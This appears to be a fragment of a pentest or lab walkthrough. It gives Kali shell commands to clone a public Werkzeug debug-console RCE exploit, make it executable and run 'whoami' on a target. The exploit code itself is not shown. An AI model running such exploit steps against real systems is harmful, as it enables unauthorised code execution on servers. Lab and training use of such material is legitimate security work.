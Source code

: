 https://github.com/its-arun/Werkzeug-Debug-RCE

```bash - kali
git clone https://github.com/its-arun/Werkzeug-Debug-RCE.git
```

```bash - kali
cd Werkzeug-Debug-RCE
```

```bash - kali
chmod +x werkzeug.py
```

```bash - kali
python2 werkzeug.py $TARGET whoami
```
